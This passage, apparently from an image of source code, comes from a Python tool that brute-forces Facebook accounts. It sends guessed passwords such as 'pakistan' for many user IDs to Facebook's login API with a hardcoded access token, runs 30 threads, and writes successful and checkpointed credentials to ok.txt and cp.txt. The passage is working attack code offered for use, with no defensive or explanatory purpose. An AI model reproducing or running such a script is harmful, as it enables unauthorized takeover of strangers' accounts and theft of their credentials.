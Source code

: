 		                                            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass6 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                                            d=json.loads(q)
		                                            if 'www.facebook.com' in d['error_msg']:
		                                                print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass6+"\x1b[1;91m | \x1b[1;97m"+name)
		                                                cp=open("cp.txt","a")
		                                                cp.write(uid+" | "+pass6+"\n")
		                                                cp.close()
		                                                cps.append(uid)
		                                            else:
		                                                if 'access_token' in d:
		                                                    print("\t\x1b[1;92m[Successfull] "+uid+" | "+pass6+" | "+name)
		                                                    ok=open("ok.txt","a")
		                                                    ok.write(uid+" | "+pass6+"\n")
		                                                    ok.close()
		                                                    oks.append(uid)
		                                                else:
		                                                    pass7="pakistan"
		                                                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass7 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                                                    d=json.loads(q)
		                                                    if 'www.facebook.com' in d['error_msg']:
		                                                        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass7+"\x1b[1;91m | \x1b[1;97m"+name)
		                                                        cp=open("cp.txt","a")
		                                                        cp.write(uid+" | "+pass7+"\n")
		                                                        cp.close()
		                                                        cps.append(uid)
		                                                    else:
		                                                        if 'access_token' in d:
		                                                            print("\t\x1b[1;92m[Successfull] "+uid+" | "+pass7+" | "+name)
		                                                            ok=open("ok.txt","a")
		                                                            ok.write(uid+" | "+pass7+"\n")
		                                                            ok.close()
		                                                            oks.append(uid)
		                                        
									
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print("\033[1;97m--------------------------------------------------")
	print ('\033[1;97m[+]\033[1;97m Process Has Been Completed')
	print('\033[1;97m[+]\033[1;97m Total CP/OK:\033[0;97m  '+str(len(cps))+'/\033[1;97m '+str(len(oks)))
	print("\033[1;97m--------------------------------------------------")
	raw_input("Press Enter To Main Menu Back")
	menu()
		